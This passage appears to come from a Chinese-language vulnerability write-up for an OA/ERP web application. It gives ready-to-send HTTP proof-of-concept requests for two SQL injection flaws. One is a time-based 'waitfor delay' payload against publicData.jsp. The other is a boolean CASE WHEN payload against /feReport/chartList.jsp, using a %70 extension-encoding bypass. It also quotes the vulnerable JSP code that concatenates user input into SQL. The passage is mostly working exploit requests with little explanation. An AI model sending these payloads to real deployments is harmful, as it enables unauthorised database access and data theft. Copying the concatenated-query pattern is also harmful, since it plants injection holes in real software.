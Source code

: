 ```java
                o = ResourceManage.getResource(language);
            }

            return o;
        }
    }
```





### publicData.jsp sql注入漏洞

```
GET /oaerp/ui/common/publicData.js%70?type=getAllTableInfo&db=';waitfor+delay+'0:0:3'-- HTTP/1.1
Host: ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,imag e/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 0
```

代码

```java
<% 
	String type = request.getParameter("type");
	if("getSelectData".equals(type)){...}
	else if("getAllTableInfo".equals(type)){
  CommonSelectService css = (CommonSelectService)ResourceManage.getContext("commonselectservice");
		String db = request.getParameter("db"); 
		out.print(css.getAllTableInfos(db)); // dt = this.dao.getDataTable("SYS_TABLE", "ST02='" + db + "'", "", 1, Integer.MAX_VALUE);
	}
```



### /feReport/chartList.jsp SQL注入漏洞

```
GET /feReport/chartList.js%70?delId=1&reportId=(SELECT+(CASE+WHEN+ (1=1)+THEN+1+ELSE+(SELECT+8384+UNION+SELECT+1867)+END)) HTTP/1.1 
Host: ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,imag e/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 0


```

